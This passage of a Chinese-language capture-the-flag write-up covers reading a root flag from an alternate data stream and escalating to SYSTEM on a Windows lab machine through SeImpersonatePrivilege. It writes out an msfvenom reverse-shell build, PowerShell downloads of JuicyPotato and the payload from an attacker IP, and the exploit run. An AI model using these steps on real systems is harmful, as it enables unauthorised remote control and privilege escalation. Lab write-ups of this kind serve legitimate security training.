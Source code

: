 ```

使用more命令读取flag
```
c:\Users\Administrator\Desktop>more <hm.txt:root.txt
more <hm.txt:root.txt
afbc5bd4b615a6....

c:\Users\Administrator\Desktop>

```



## 提权方法二：SeImpersonatePrivilege

查看当前账号能力
```
PS C:\Users\kohsuke\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

有SeImpersonatePrivilege和SeCreateGlobalPrivilege能力，都可以用来提权

编译一个反弹shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.4 LPORT=443 -f exe >rev.exe
```


传烂土豆
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.4/JuicyPotato.exe','C:\Users\kohsuke\Documents\JuicyPotato.exe')"
```

传反弹shell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.4/rev.exe','C:\Users\kohsuke\Documents\rev.exe')"
```

执行烂土豆
```
PS C:\Users\kohsuke\Documents> cmd /c 'JuicyPotato.exe -l 1337 -p rev.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}'
Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1337
......
[+] authresult 0
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
